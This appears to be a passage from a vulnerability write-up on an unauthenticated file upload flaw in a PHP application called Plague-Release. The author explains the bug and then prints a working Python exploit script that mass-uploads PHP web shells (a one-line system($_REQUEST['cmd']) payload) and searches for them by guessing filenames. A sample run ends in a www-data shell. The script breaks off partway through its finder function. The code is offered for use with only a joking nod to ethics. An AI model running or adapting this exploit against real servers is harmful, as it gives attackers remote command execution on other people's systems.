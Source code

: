 ```php
	} break;
  ...
}
```


Then we run into a switch statement, as we control RT, we can just hop into RT_FILE, and enjoy the classic file upload vuln. Due to basename we can't do a standard path traversal, but of course they didn't care about .htaccess rules etc. and you also don't need any kind of shared secret/auth to do this. The only thing left is the question, is the filename random enough to not be guessable over the network?

* How many requests can we make per minute?
* What's the max time we will accept as feasible?
* How can we increase the likelyhood?


While the first two factors are debatable, we can of course increase the likelyhood of a hit when uploading more files. Therefore the strategy is simple: 1. Prepare our evil php code, upload ~200 files (you can increase that of course if you want to), and then try to find one of our shells. Easy. Here's the full exploit script, I recommend using it ethically *laught* 


And some example run:
```bash
esjay@g Plague-Release % python3 sploit.py http://localhost:8200
[*] Uploading files ...
[*] Searching for our shell ...
[+] Found shell @ http://localhost:8200/uploads/1629452215549_x.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)

> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```


```python

import requests
import threading
import time
import sys

def upload(host):

  url = f"{host}/result.php?GUID=bla&RT=bla2&ID=fakeid&Continue=2"

  data = {"Nick" : "nickname", "OS" : "windows", "Comp" : "Compyoyo", "User" :"fakeuser", "CPU" : "CPU123", "GPU" : "GGPU1", "Anti" : "av1", "Def" : "Defender", "Inf" :"infa12", "GUID" : "fakeguid", "RT" : 2, "ID" : "fakeid", "Continue":2}


  files = { "File" : ( "x.php" , b"<?php system($_REQUEST['cmd']); ?>") }

  r = requests.post(url, data=data,files=files, verify=False)


tValue = 0
shellUrl = None
theLock = threading.Lock()


def finder(host):
  global tValue
  global shellUrl
  global theLock

```